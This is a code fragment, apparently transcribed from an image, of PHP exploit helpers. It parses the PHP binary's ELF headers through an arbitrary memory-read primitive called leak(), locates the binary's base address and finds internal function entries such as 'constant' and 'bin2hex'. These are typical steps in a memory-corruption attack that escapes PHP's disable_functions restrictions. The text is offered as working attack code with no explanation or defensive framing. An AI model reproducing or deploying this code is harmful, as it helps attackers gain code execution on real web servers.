 ```php
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }
```